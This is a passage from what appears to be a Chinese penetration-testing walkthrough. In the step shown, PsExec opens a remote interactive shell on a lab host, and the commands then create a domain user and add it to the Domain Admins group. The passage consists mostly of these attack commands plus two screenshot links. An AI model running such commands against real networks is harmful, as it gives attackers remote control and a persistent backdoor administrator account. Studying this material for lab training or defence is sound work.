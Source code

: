 #### 4、PsExec.exe 获取一个交互式 shell

用刚刚生成的管理员终端使用 PsExec.exe 工具获取一个交互式 shell，并创建了隶属于管理员组的用户

```plain
PsExec.exe \\192.168.126.10 cmd
ipconfig
whoami
net user carmi carmi@123 /add /domain
net group "Domain Admins" carmi /add /domain
net group "Domain Admins" /domain
```

[![](assets/1706496056-60e5b9b665eb1f607c740ab409485afe.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313334-1602476800.png)

[![](assets/1706496056-e7076e43f9135c3ee08077d2e56c5dad.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172313778-1803371914.png)
